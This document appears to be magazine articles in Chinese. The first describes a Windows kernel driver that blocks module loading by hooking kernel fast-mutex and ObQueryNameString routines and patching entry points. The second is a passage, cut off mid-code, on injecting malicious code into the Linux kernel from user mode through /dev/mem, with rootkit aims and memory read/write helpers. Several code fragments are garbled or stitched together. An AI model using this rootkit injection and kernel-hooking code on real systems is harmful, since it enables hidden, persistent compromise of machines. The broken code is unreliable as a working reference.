无论是程序启动时加载的 DLL（ntdll.dll 除外，其余启动时加载的 dll 均是由 ntdll.dll 加载的）还是后来加载以及注入的 DLL，均是通过 `ZwMapViewOfSection` 来加载的。同样，我们先查看调用堆栈。

```asm
LoadImageNotifyDriver!LoadImageNotifyRoutine
nt!PsCallImageNotifyRoutines+0x36
nt!MiMapViewOfImageSection+0x4c1
nt!MmMapViewOfSection+0x13c
nt!NtMapViewOfSection+0x2bd
nt!KiFastCallEntry+0xf8
ntdll!KiFastSystemCallRet
ntdll!NtMapViewOfSection+0xc
// ntdll 中 ZwMapViewOfSection 与 NtMapViewOfSection 是同一个函数
```

由于 `MiMapViewOfImageSection` 的反汇编太长，因此不再贴出，其内部通过 `ControlArea`（由 `MmMapViewOfSection` 产生）`->FilePointer` 得到被映射文件的 `FileObject`，然后将 `FileObject->FileName` 作为 `FullImageName` 传给 `PsCallImageNotifyRoutine`，因此得到的 `FullImageName` 没有盘符，只有路径以及文件名（类似于 `\WINDOWS\system32\kernel32.dll`）。

我们知道，`ZwQueryVirtualMemory` 可以根据 VA（Virtual Address，虚拟地址）来获取映射到该地址的文件名（其内部会遍历 VAD 树找到该 VA 对应的树枝，然后得到 `ControlArea`，进而得到 `FileObject`）。因此，从理论上讲，我们可以通过 `ZwQueryVirtualMemory(ZwCurrentProcess(), MemoryMappedFilenameInformation, ImageFileName, BufferSize, &BufferSize)` 来获得文件名。

```asm
nt!KiSwapContext+0x2e
nt!KiSwapThread+0x46
nt!KeWaitForSingleObject+0x1c2
hal!ExAcquireFastMutex+0x2a
nt!NtQueryVirtualMemory+0x1a9
nt!KiFastCallEntry+0xf8
LoadImageNotifyDriver!CallSystemService+0x11
LoadImageNotifyDriver!NewZwQueryVirtualMemory+0x55
LoadImageNotifyDriver!LoadImageNotifyRoutine+0xdf
nt!PsCallImageNotifyRoutines+0x36
nt!MiMapViewOfImageSection+0x4c1
```

可以看到，线程调用了 `KeWaitForSingleObject` 在等待某个对象变为信号态，而 `KeWaitForSingleObject` 的调用是由 `NtQueryVirtualMemory` 想要获取某个快速互斥体而引起的。我们回溯到 `NtQueryVirtualMemory`：

```asm
nt!NtQueryVirtualMemory+0x189:
push eax
push esi ; 要附加的进程（以便操作内存空间）
call nt!KeStackAttachProcess
mov dword ptr [ebp-28h],1
jmp nt!NtQueryVirtualMemory+0x19d
and dword ptr [ebp-28h],0
lea ecx,[esi+0F0h] ; esi 为附加上的进程
; ExAcquireFastMutex 是 fastcall，参数 FastMutex 储存在 ecx
call dword ptr [nt!imp_ExAcquireFastMutex]
```

查看 `EPROCESS` 结构：

```text
ntdll!_EPROCESS
......
+0x0f0 AddressCreationLock : _FAST_MUTEX
......
```

可以看出，`NtQueryVirtualMemory` 想要获取 `AddressCreationLock`。同时，从调用堆栈可知，我们的回调是由 `MmMapViewOfSection` 一层一层引发的，反汇编 `MmMapViewOfSection` 可得到如下结果：

```asm
nt!MmMapViewOfSection+0xa8:
push eax
push edi ; 要附加的进程
call nt!KeStackAttachProcess
mov dword ptr [ebp-4],1
lea ecx,[edi+0F0h] ; FastMutex
mov dword ptr [ebp+0Ch],ecx
call dword ptr [nt!imp_ExAcquireFastMutex]
```

显然，在 `MmMapViewOfSection` 中，`AddressCreationLock` 已经被获取了，而快速互斥体不能被递归地获取（请注意快速互斥体与互斥体的区别），因此会导致死锁。所以在调用 `ZwQueryVirtualMemory` 之前，我们需要通过某种方法来避免再次试图获取这个互斥体。

#### 拦截模块加载

无论是内核模块还是 DLL，它们的入口点都会返回一个值来表明初始化成功或是失败，因此我们可以修改入口点的代码，使其直接返回失败，系统便会撤销之前所做的操作，使此次加载模块失败。

#### 其他问题

由于 `ZwQueryVirtualMemory` 不一定被导出（对于这些未文档化的函数，不同系统导出情况不同，比如对于我所使用的 Windows Server 2008 R2，`ZwQueryVirtualMemory` 就被导出了；但是对于 Windows XP 而言，该函数就没有被导出），所以我们需要自己定位或者实现这个函数。

由于每次查询模块文件名都需要分配缓冲区，而一个进程启动免不了要大量地加载模块，如果每次都分配/释放，难免导致内存碎片从而降低系统性能。

#### 具体实现

### 1. ZwQueryVirtualMemory 实现

这个函数很短，我们可以自行实现这个函数，代码如下：

```asm
nt!ZwQueryVirtualMemory:
mov eax,0B2h
lea edx,[esp+4]
pushfd
push 8
call nt!KiSystemService
ret 18h
```

从 IA32 开发手册可以得知，相同特权级发生中断时，CPU 所进行的操作为（这个中断不涉及错误码）：依次将 `eflags`、`CS`、`EIP` 入栈，然后转跳到中断处理例程。入栈 `EIP`，然后转跳即是一个 `call`，因此以上代码模拟了一个中断现场，然后通过 `KiSystemService` 转而调用 `NtQueryVirtualMemory`，我们也可以模拟一个。

同时，为了得到 `ZwQueryVirtualMemory` 的 `ServiceId`，我们需要加载 `ntdll.dll`，并从中找到 `ntdll!ZwQueryVirtualMemory`。由于 `ntdll!ZwQueryVirtualMemory` 的第 1 条指令是 `mov eax, ServiceId_ZwQueryVirtualMemory`，因此我们从 `*reinterpret_cast<ULONG *>(ZwQueryVirtualMemory + 1)` 即可得到 `ServiceId_ZwQueryVirtualMemory`。

```c
#define RING0_CS 8
__declspec(naked)
NTSTATUS
__cdecl
CallSystemService(
    IN ULONG ServiceId,
    ......
)
{
    __asm {
        mov eax, [esp + 4];      // eax == service id
        lea edx, [esp + 8];      // edx == arguments
        pushfd;                  // eflags
        push RING0_CS;           // code segment selector
        call KiSystemService;    // eip and enter handler
        ret;
    }
}
```

然而，由于 `KiSystemService` 未导出，因此我们还需要定位 `KiSystemService`。显然，对于任何一个 `ZwXxx` 函数，其中只会出现一次 `call`，而这个 `call` 正是对 `KiSystemService` 的调用。因此，我们可以通过在某个已文档化的 `ZwXxx` 函数中搜索来定位 `KiSystemService`。

```c
PVOID
LocateKiSystemService(
    VOID
)
{
    UCHAR *CodePtr, *OpCode;
    ULONG LengthOfCode;
    PVOID LocalKiSystemService;

    for (CodePtr = reinterpret_cast<UCHAR *>(ZwTerminateProcess);
         CodePtr != reinterpret_cast<UCHAR *>(ZwTerminateProcess) +
                    SizeOfProc(reinterpret_cast<UCHAR *>(ZwTerminateProcess));
         CodePtr += LengthOfCode) {

        LengthOfCode = SizeOfCode(CodePtr, &OpCode);
        if (!LengthOfCode) {
            return NULL;
        }
        if (*OpCode == 0xe8) {
            // call imm32
            LocalKiSystemService = reinterpret_cast<PVOID>(
                reinterpret_cast<CHAR *>(OpCode) + 5 +
                *reinterpret_cast<ULONG *>(OpCode + 1));
            return LocalKiSystemService;
        }
    }
    return NULL;
}
```

```c
ULONG
GetServiceIdByName(
    IN PSTR ProcedureName
)
{
    PIMAGE_NT_HEADERS NtHeaders;
    PIMAGE_EXPORT_DIRECTORY ImageExportDirectory;
    PVOID BinaryBase;
    ULONG BinarySize;
    NTSTATUS Status;
    UNICODE_STRING NtdllPath = RTL_CONSTANT_STRING(NTDLL_PATH);
    PSTR *ProcedureNames;
    ULONG *ProcedureRvas;
    ULONG ProcedureIndex;
    CHAR *NtProcedurePtr();
    ULONG LocalServiceId;

    Status = LoadFile(&NtdllPath, &BinaryBase, &BinarySize);
    if (!NT_SUCCESS(Status)) {
        DbgPrint(("[LoadImageNotifyDriver] GetServiceIdByName: Unable to load file into memory.\n", Status));
        return -1; // indicates failure
    }

    NtHeaders = Add2Ptr(BinaryBase,
        reinterpret_cast<PIMAGE_DOS_HEADER>(BinaryBase)->e_lfanew,
        IMAGE_NT_HEADERS);

    ImageExportDirectory = Add2Ptr(BinaryBase,
        RvaToRawOffset(BinaryBase,
            NtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress),
        IMAGE_EXPORT_DIRECTORY);

    ProcedureNames = Add2Ptr(BinaryBase,
        RvaToRawOffset(BinaryBase, ImageExportDirectory->AddressOfNames), PSTR);

    ProcedureRvas = Add2Ptr(BinaryBase,
        RvaToRawOffset(BinaryBase, ImageExportDirectory->AddressOfFunctions), ULONG);

    for (ProcedureIndex = 0;
         ProcedureIndex != ImageExportDirectory->NumberOfFunctions;
         ++ProcedureIndex) {
        if (ProcedureNames[ProcedureIndex]) {
            if (!_stricmp(Add2Ptr(BinaryBase, RvaToRawOffset(...)), ProcedureName)) {
                /* ... */
            }
        }
    }

    (BinaryBase, reinterpret_cast<ULONG>(ProcedureNames[ProcedureIndex]), CHAR, ProcedureName)) {
        NtProcedurePtr = Add2Ptr(BinaryBase,
            RvaToRawOffset(BinaryBase, ProcedureRvas[ProcedureIndex]), CHAR);
        break;
    }

    if (!NtProcedurePtr) {
        DbgPrint("[LoadImageNotifyDriver] GetServiceIdByName: Unable to find function %s.\n", ProcedureName);
        return -1;
    }

    LocalServiceId = *reinterpret_cast<ULONG *>(NtProcedurePtr + 1);
    ExFreePoolWithTag(BinaryBase, DRIVER_POOL_TAG);
    return LocalServiceId;
}
```

获得并且 `Caller` 为我们自己的线程，我们就将 `reinterpret_cast<CHAR *>(FastMutex) - reinterpret_cast<CHAR *>(PsGetCurrentProcess())` 保存在 `AddressCreationLockOffset` 中。

同时我们应当注意，`ExAcquireFastMutex` 会将 `IRQL` 提升至 `APC_LEVEL`，来避免被 APC 中断。同时 `ExAcquireFastMutex` 又是一个不可能失败的函数（就我们当前的目的而言，我们也不能让 `ExAcquireFastMutex` 失败），因此我们的 `NewExAcquireFastMutex` 必须提升 `IRQL`，之后在 `NewExReleaseFastMutex` 降低 `IRQL`。

### 2. AddressCreationLock 实现

我们可以通过每次调用 `ZwQueryVirtualMemory` 之前先 `Release AddressCreationLock`，之后在 `LoadImageNotifyRoutine` 返回之前再次 `Acquire` 来执行 `ZwQueryVirtualMemory`（使用这种做法时请注意，调用 EXE 以及 ntdll 的加载回调时并不会 `Acquire AddressCreationLock`，因此在系统调用 EXE 以及 dll 的回调时，请不要直接 `Release AddressCreationLock`），但这就存在我们 `Release` 之后再次被其他线程 `Acquire` 到的可能性。而且由于这个快速互斥体是用来避免多个线程同时操作同一进程的 VAD（虚拟空间描述符）的，我们在操作 VAD 完成之前就将之 `Release`，就会使得其他线程开始操作该进程的 VAD，会导致不可预料的结果。

因此，此处我们通过 Hook `ExAcquireFastMutex` 以及 `ExReleaseFastMutex`，使得 `AddressCreationLock` 这个快速互斥体成为普通的互斥体来避免死锁。考虑到 `ZwQueryVirtualMemory` 不会操作 VAD，所以我们这样做是安全的。

另一方面，为了得到 `AddressCreationLock` 在 `EPROCESS` 结构中的 `Offset`，我们通过一个全局变量 `OffsetGotten` 来指明是否已经获得了该 `Offset`，然后调用 `ZwQueryVirtualMemory`，在 `NewExAcquireFastMutex` 中进行判断……

```c
VOID FASTCALL NewExAcquireFastMutex(
    ...
)
{
    if (PsGetCurrentThread() == CurrentProcessingThread) {
        if (!OffsetGotten) {
            AddressCreationLockOffset = reinterpret_cast<CHAR *>(FastMutex) -
                reinterpret_cast<CHAR *>(PsGetCurrentProcess());
        } else {
            if (FastMutex == Add2Ptr(PsGetCurrentProcess(), AddressCreationLockOffset, FAST_MUTEX)) {
                KeRaiseIrql(APC_LEVEL, &FastMutex->OldIrql);
                // 提升 IRQL
                return;
            }
        }
    }
    return (ProxyExAcquireFastMutex(FastMutex));
}

VOID FASTCALL NewExReleaseFastMutex(
    ...
)
{
    if (PsGetCurrentThread() == CurrentProcessingThread) {
        if (OffsetGotten) {
            if (FastMutex == Add2Ptr(PsGetCurrentProcess(), AddressCreationLockOffset, FAST_MUTEX)) {
                KeLowerIrql(FastMutex->OldIrql);
                // 还原 IRQL
                return;
            }
        }
    }
    return (ProxyExReleaseFastMutex(FastMutex));
}
```

之后每次调用 `ZwQueryVirtualMemory` 之前，分配内存。我们先 Hook `ExAcquireFastMutex` 以及 `ExReleaseFastMutex`，在调用完之后再恢复。

```cpp
NTSTATUS
NewZwQueryVirtualMemory(
    IN HANDLE ProcessHandle,
    IN PVOID BaseAddress,
    IN MEMORY_INFORMATION_CLASS MemoryInformationClass,
    OUT PVOID MemoryInformation,
    IN SIZE_T MemoryInformationLength,
    OUT OPTIONAL PSIZE_T ReturnLength
)
{
    NTSTATUS Status;
    CurrentProcessingThread = PsGetCurrentThread();
    HookSystemRoutine(ExAcquireFastMutex, NewExAcquireFastMutex);
    HookSystemRoutine(ExReleaseFastMutex, NewExReleaseFastMutex);

    Status = CallSystemService(ServiceId_ZwQueryVirtualMemory,
                               ProcessHandle,
                               BaseAddress,
                               MemoryInformationClass,
                               MemoryInformation,
                               MemoryInformationLength,
                               ReturnLength);

    RestoreSystemRoutine(ExAcquireFastMutex, ProxyExAcquireFastMutex);
    RestoreSystemRoutine(ExReleaseFastMutex, ProxyExReleaseFastMutex);
    return Status;
}
```

```cpp
ImageFileName = reinterpret_cast<POBJECT_NAME_INFORMATION>(
    ExAllocateFromNPagedLookasideList(&ImageFileNamePoolLookasideList));

// 首先从 LookasideList 中获取一个缓冲区
if (!ImageFileName) {
    DbgPrint("[LoadImageNotifyDriver] ... Unable to allocate pool for ImageFileName");
    return;
}

Status = NewZwQueryVirtualMemory(
    ZwCurrentProcess(),
    ImageInfo->ImageBase,
    MemoryMappedFilenameInformation,
    ImageFileName,
    PAGE_SIZE,
    &BufferSize);

if (Status == STATUS_INFO_LENGTH_MISMATCH) {
    // PAGE_SIZE 仍然不够大
    NewZwQueryVirtualMemory(ZwCurrentProcess(), ImageInfo->ImageBase,
                            MemoryMappedFilenameInformation, NULL, 0, &BufferSize);

    ExFreeToNPagedLookasideList(&ImageFileNamePoolLookasideList, ImageFileName);

    ImageFileName = reinterpret_cast<POBJECT_NAME_INFORMATION>(
        ExAllocatePoolWithTag(NonPagedPool, BufferSize, DRIVER_POOL_TAG));

    // 使用 ExAllocatePoolWithTag 分配缓冲区
    if (!ImageFileName) {
        DbgPrint("[LoadImageNotifyDriver] ... Unable to allocate pool for ImageFileName");
        KeRaiseIrql(OriginalIrql, &OriginalIrql);
        return;
    }

    ImageFileNameFromPool = TRUE;
    Status = NewZwQueryVirtualMemory(
        ZwCurrentProcess(),
        ImageInfo->ImageBase,
        MemoryMappedFilenameInformation,
        ImageFileName,
        BufferSize,
        &BufferSize);
}
```

##### 3. 减少内存碎片

显然，每次获取模块文件名都调用 `ExAllocatePoolWithTag` 会造成大量的内存分配/释放，为了避免此种情况的发生，我们可以使用 `LookasideList`。在内部，每次我们释放内存的时候不会引发真正的内存释放，而是将内存再次存入 `LookasideList`，尽管这样会更多地消耗内存，但这样可避免多次内存分配与释放所带来的内存碎片以及性能开销。

```cpp
// use look-aside-list for better system performance
ExInitializeNPagedLookasideList(
    &ImageFileNamePoolLookasideList,
    NULL,
    NULL,
    0,
    PAGE_SIZE,
    DRIVER_POOL_TAG,
    0);
```

但是由于文件名长度我们无法确定，因此尽管我们将分配的内存大小设置为 `PAGE_SIZE`，但仍然存在缓冲区不够大的可能性。对于这种情况，我们使用 `ExAllocatePoolWithTag` 来为其分配代理缓冲区。

另一方面，由于我们每次调用 `ZwQueryVirtualMemory` 之前都会对 `ExAcquireFastMutex` 以及 `ExReleaseFastMutex` 进行 Hook，调用完毕之后又会恢复 Hook，因此如果我们在 Hook 的时候分配代理函数，在恢复的时候释放代理函数，必然导致大量的内存分配释放。因此，我们在驱动加载时分配代理函数，在驱动卸载时释放代理函数。在 Hook 时只修改要 Hook 的函数头为跳转代码，在恢复的时候也只恢复函数头的代码。这个很容易实现，代码就不再贴出了。

## 4. NT风格文件名转换

网上对于 NT 风格文件名转换有很多成熟的代码，比如使用 `QueryDosDevice` 或是获取所有 DOS 风格的分区根目录所对应的 NT 路径，然后反查，等等。下面介绍另一种方法。

对于 `ZwOpenFile`、`ZwCreateFile`、`IoCreateFile` 这些函数而言，它们能够处理 NT 风格路径，因此，我们将 NT 风格路径传给 `ZwOpenFile` 得到 `FileHandle`，然后将 `FileHandle` 传给 `ObReferenceObjectByHandle` 得到 `FileObject`，之后我们便可以使用以前的方法来从 `FileObject` 得到 DOS 风格的路径了。

关于从 `FileObject` 得到 DOS 风格路径，本文也不再使用惯用的 `IoVolumeDeviceToDosName` 方法，而使用 Windows XP 新引入的函数 `IoQueryFileDosDeviceName`，该函数接收 `FileObject` 作为参数，返回该 `FileObject` 所对应的 DOS 风格的路径。

```cpp
Routine: Unable to get Dos-style file name for %wZ.\n", &ImageFileName->Name);
KeRaiseIrql(OriginalIrql, &OriginalIrql);
return;
}
Status = IoQueryFileDosDeviceName(FileObject, &FileName);
ObDereferenceObject(FileObject);
KeRaiseIrql(OriginalIrql, &OriginalIrql);
```

事实上，若只是得到 `ZwQueryVirtualMemory` 返回的 NT 风格路径对应的 DOS 风格路径的话，我们还有另外一种做法。

在 `NtQueryVirtualMemory` 内部，该函数调用了（并且也仅调用了一次）`ObQueryNameString`（请自行分析 `NtQueryVirtualMemory` 流程），因此通过 Hook `ObQueryNameString`，我们即可得到所查询的地址处映射的文件的 `FileObject`，之后再使用 `IoQueryFileDosDeviceName` 即可得到 DOS 风格路径。

```cpp
InitializeObjectAttributes(&ObjectAttributes,
&ImageFileName->Name, OBJ_CASE_INSENSITIVE |
((ExGetPreviousMode() == KernelMode) ?
OBJ_KERNEL_HANDLE : 0), NULL, NULL);
Status = ZwOpenFile(&FileHandle, FILE_READ_ATTRIBUTES, &ObjectAttributes, &IoStatusBlock, FILE_SHARE_READ, 0);
if (ImageFileNameFromPool) {
    ExFreePoolWithTag(ImageFileName, DRIVER_POOL_TAG);
} else {
    ExFreeToNPagedLookasideList(&ImageFileNamePoolLookasideList, ImageFileName);
}
if (!NT_SUCCESS(Status)) {
    DbgPrint("[LoadImageNotifyDriver] LoadImageNotifyRoutine: Unable to open file %wZ.\n", &ImageFileName->Name);
    KeRaiseIrql(OriginalIrql, &OriginalIrql);
    return;
}
Status = ObReferenceObjectByHandle(FileHandle, FILE_READ_ATTRIBUTES, *IoFileObjectType, KernelMode, reinterpret_cast<PVOID *>(&FileObject), NULL);
ZwClose(FileHandle);
if (NT_SUCCESS(Status)) { ... }
```

```cpp
PFILE_OBJECT ImageFileObject;
// 使用全局变量保存 FileObject
NTSTATUS
NTAPI
NewObQueryNameString(
...
)
if (PsGetCurrentThread() == CurrentProcessingThread)
{
    ImageFileObject = reinterpret_cast<FILE_OBJECT *>(Object); // 记录 FileObject
    return STATUS_SUCCESS;
}
return ProxyObQueryNameString(Object, ObjectNameInfo, Length, ReturnLength);

// 回调函数中
POBJECT_NAME_INFORMATION ImageFileName;
SIZE_T BufferSize;
KIRQL OriginalIrql(KeGetCurrentIrql());
KeLowerIrql(PASSIVE_LEVEL); // 降低 IRQL（回调调用时处在 APC_LEVEL）
CurrentProcessingThread = PsGetCurrentThread();
HookSystemRoutine(ObQueryNameString, NewObQueryNameString);
Status = NewZwQueryVirtualMemory(ZwCurrentProcess(), ImageInfo->ImageBase, MemoryMappedFilenameInformation, NULL, 0, &BufferSize);
RestoreSystemRoutine(ObQueryNameString, ProxyObQueryNameString);
if (NT_SUCCESS(Status)) { ... }
```

```c
Status = IoQueryFileDosDeviceName(ImageFileObject, &FileName);
}
KeRaiseIrql(OriginalIrql, &OriginalIrql);
```

```c
NtHeaders->OptionalHeader.AddressOfEntryPoint =
    NtHeaders->OptionalHeader.BaseOfData;
EntryPoint = Add2Ptr(Base, NtHeaders->
    OptionalHeader.AddressOfEntryPoint, VOID);
BaseAddress = EntryPoint;
NewZwProtectVirtualMemory(ZwCurrentProcess(),
    &BaseAddress, &RegionSize, PAGE_EXECUTE_READ,
    &OldProtect);

BaseAddress = EntryPoint;
Status = NewZwProtectVirtualMemory
    (ZwCurrentProcess(), &BaseAddress, &RegionSize,
     PAGE_READWRITE, &OldProtect);
if (!NT_SUCCESS(Status)) {
    return;
}
SafeCopyMemory(EntryPoint, NewEntryPointCode,
    sizeof(NewEntryPointCode));
NewZwProtectVirtualMemory(ZwCurrentProcess(),
    &BaseAddress, &RegionSize, OldProtect, &OldProtect);
} else {
    SafeCopyMemory(EntryPoint, NewEntryPointCode,
        sizeof(NewEntryPointCode));
}
return;
}
```

##### 5. 模块拦截

通过修改正在加载的模块的 `EntryPoint` 的代码（注意在调用我们的回调之时，系统已经将模块映射入内存，但是尚未调用模块的 EP 函数），我们可以让模块返回一个失败的信息，从而使得系统撤销加载该模块的操作。

但是需要注意，在 PE 格式说明文档中明确指出，DLL 可以没有入口点函数（`NtHeaders->OptionalHeader.AddressOfEntryPoint = 0`），对于这种情况，我们可以将该 DLL 的入口点函数设置为该 DLL 的代码基部（`NtHeaders->OptionalHeader.BaseOfCode`），然后再进行修改。

若 `BaseOfCode` 为 0，我们可以修改 `BaseOfData` 的页面属性，将入口点函数放置于 `BaseOfData` 处。

```c
VOID
PreventLibraryLoading(
    PVOID Base,
    BOOLEAN KernelModeLibrary
)
{
    PIMAGE_NT_HEADERS NtHeaders(Add2Ptr(Base,
        reinterpret_cast<PIMAGE_DOS_HEADER>(Base)->e_lfanew,
        IMAGE_NT_HEADERS));

    PVOID EntryPoint(Add2Ptr(Base,
        NtHeaders->OptionalHeader.AddressOfEntryPoint, VOID));

    CHAR NewEntryPointCode[] = "\xB8\x22\x00\x00\xC0\xC2\x08\x00";
    // 9 bytes long (mov eax, imm32 ; ret imm16)

    if (!KernelModeLibrary) {
        NTSTATUS Status;
        PVOID BaseAddress;
        ULONG OldProtect;
        SIZE_T RegionSize(sizeof(NewEntryPointCode));

        *reinterpret_cast<USHORT *>(NewEntryPointCode + 1) = 0x0; // false
        *reinterpret_cast<USHORT *>(NewEntryPointCode + 6) = 0x000C;
        // the number of parameter of user mode dll's entrypoint is three.

        if (EntryPoint == Base) { // 没有 EP
            NtHeaders->OptionalHeader.AddressOfEntryPoint =
                NtHeaders->OptionalHeader.BaseOfCode;
            EntryPoint = Add2Ptr(Base,
                NtHeaders->OptionalHeader.AddressOfEntryPoint, VOID);
            if (EntryPoint == Base) { // BaseOfCode 也为 0
                NtHeaders->OptionalHeader.AddressOfEntryPoint =
                    NtHeaders->OptionalHeader.BaseOfData;
                EntryPoint = Add2Ptr(Base,
                    NtHeaders->OptionalHeader.AddressOfEntryPoint, VOID);
            }
        }
    }
}
```

此处不考虑 DLL 既不包含代码也不包含数据的情况。同样，`ZwProtectVirtualMemory` 前后也需要 Hook `ExAcquireFastMutex` 以及 `ExReleaseFastMutex`，因为 `ZwProtectVirtualMemory` 也需要获取 `AddressCreationLock`，同时，考虑到 `ZwProtectVirtualMemory` 不会增减 VAD 树，这种做法是安全的。

#### 结束语

本文通过使用加载模块回调，实现了拦截模块的加载。但是应当意识到的是，从前文我们可以看出，这样的做法是建立在调用方无法在系统调用入口点函数之前进行操作的前提之上的。因此，对于用户态 DLL 而言，这种做法不能确保一定能够拦截成功，这是这种做法的缺陷之所在。但是对于内核模块而言，这种做法能够拦截多种加载驱动的方法（如 `ZwLoadDriver`、`ZwSetSystemInformation`、直接调用 `MmLoadSystemImage` 等），这要比传统的做法更加可靠。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

- 前置知识：Linux
- 关键词：编程，Ring3，设备文件

## Ring3下实现恶意代码注入 Linux 内核

文/图 小小彬



当前 Linux 中已经存在的各种 Rootkits，大都是借助可加载内核模块（LKM）来实现的，包括利用 IDT 实现系统调用的劫持技术来实现文件隐藏、进程隐藏、网络连接的隐藏及模块本身的隐藏等。但这种借助 LKM 实现的 Rootkits，需要依赖操作系统内核模块的支持。若在目标机内核中并没有实现模块支持，那么这种 Rootkits 是无法加载到目标机中的。大家应该知道，一台 Linux 计算机在编译定制内核时，用户是可以选择是否添加可加载内核模块的支持的，当不选择此支持时，LKM 是无效的。而且当前针对 LKM 实现的 Rootkits 已经很容易地被各种 Rootkits 检测工具检测出来，如完整性检测技术、针对攻击系统调用的检测技术等。

下面介绍一种在 Ring3 下借助 /dev/mem 设备文件实现恶意代码注入的技术。这种技术最初来自 Silvio Cesare 使用 /dev/kmem 对 Linux 内核打补丁并应用于 /dev/mem，后来被很多人利用。本文也是在参考此文以及《Linux on-the-fly kernel patching without LKM》一文后，根据自己的理解与本机测试写下的，希望能够对大家有所帮助。

设备文件 /dev/mem 是系统物理内存的一个映射，真实地反映了物理内存。那么我们自然就可以借助 /dev/mem 来查找出例如 system_call、sys_call_table 的内核符号地址，进而找到所需要的地址，再将应用程序的代码注入到内核空间。

系统调用函数、系统调用表重定向、修改系统调用入口函数等，从而实现执行方向的改变，达到完全控制系统。一般情况下，/dev/kmem 的信息是人们无法理解的，但借助于合适的分析工具，/dev/kmem 可以由一个 root 级用户读出或写入。我们可以利用调试器和定制编码直接与 /dev/kmem 进行交互，并搜索 /dev/kmem 中的信息，再利用一些代码函数在内核空间进行修改，从而跳过可加载模块技术。

#### 恶意代码注入基本思路

我们需要将自己的代码注入到内核中，自然需要在内核中分配一定的内存空间来存放我们的代码。如果借助 LKM 技术的话，就好办了。直接调用内核中的内存分配函数即可实现内存的分配，简单的代码如下：

```c
unsigned long mem_alloc(void){
    unsigned long p = __get_free_pages(GFP_KERNEL, 0);
    SetPageReserved(virt_to_page(p));
    return p;
}
```

其中，__get_free_pages 函数用来分配并返回一个指向一块内存区首字节的指针。__get_free_pages 函数的第 1 个参数 flags 包含 GFP_ATOMIC、GFP_KERNEL、GFP_USER 等。这里选择 GFP_KERNEL 代表运行在内核态的进程实现的内存分配。第 2 个参数 order 表示请求页数的以 2 为底的对数，若 order = 2，则请求的页面数为 3。

可能大家会问为何不使用 kmalloc 函数来实现内存的分配？kmalloc 函数的分配并不是按页大小进行的，其本身是基于 slab 实现的，它需要在页分配器的基础上来划分更细粒度的内存供调用者使用，常用于小内存的分配。SetPageReserved() 函数用于锁定刚分配的内存，即告诉系统此页已经被占用。其实这里也可以借助上面的代码来实现用户态与内核态之间共享内存空间。在内核态下，我们通过 LKM 技术调用 __get_free_pages() 函数在内核态下分配多个页面的空间，然后返回一个内核地址。在客户端我们可以调用 mmap 函数将 /dev/mem 设备文件映射到内存空间中，即可调用 puts 函数对分配的内存空间进行读写操作。

但当不能借用 LKM 时，我们如何进行内存的分配呢？这时我们可以在 Linux 内核虚拟地址空间搜索 kmalloc 函数地址。先假设已经搜索到了 kmalloc 函数的地址，此时我们就需要想办法如何去调用此函数进行内存区的分配了。在上期《Linux 下劫持系统调用的几种方式》一文中，已经介绍过利用 int 0x80 中断来获得 sys_call_table 地址的方式，然后就可以根据 linux-2.6.18\arch\i386\kernel\syscall_table.S 文件描述的各种系统调用函数，修改感兴趣的系统调用了。这里我们也可以借助这种方式，来修改一个不常用的系统调用，然后只要在系统中断输入一个 shell 命令，即可实现内核中内存的分配。但这里又不同于上期提到的劫持系统调用方式，因为我们需要在 Ring3 下进行操作，因此肯定不能直接采用以下代码了：

```c
struct idt_descriptor *pidt; // 中断描述符表结构
struct _idtr idtr;
// 中断描述符表寄存器，存放了 IDT 的首地址
void *addr = NULL;
asm("sidt %0" : "=m" (idtr));
pidt = (void*)((unsigned int*)idtr.base);
// 获得 IDT 描述符结构的地址
addr = (void*)(((unsigned int)pidt[0x80].off_low) |
              ((unsigned int)(pidt[0x80].off_high) << 16));
// 获得 system_call 函数地址
```

在 Ring3 下使用此代码，将会引发段错误，在用户态下请求内核态下的地址引发了段错误。

大家可以在 Ring3 下编写一个 demo 程序来调试，看看程序执行到上面的最后一个语句时，是否会收到系统发送的段错误信息 SIGSEGV。

这个时候，设备文件 /dev/mem 就派上用场了。我们可以在用户态下调用 open 函数打开此设备文件，然后调用 lseek 函数定位到指定的地址去读取 IDT 结构地址。先来看看 read 和 write 函数吧。

```c
int read_virt(unsigned int addr, void *buf, unsigned int len){
    unsigned int rlen;
    if(addr < 0xC0000000) return -1;
    addr -= 0xC0000000;
    if(lseek(mem_fd, addr, SEEK_SET) < 0) {
        printf("lseek failure!\n");
        return -1;
    }
    rlen = read(mem_fd, buf, len);
    return rlen;
}

int write_virt(unsigned int addr, void *buf, unsigned int len){
    unsigned int rlen;
    if(addr < 0xC0000000) return -1;
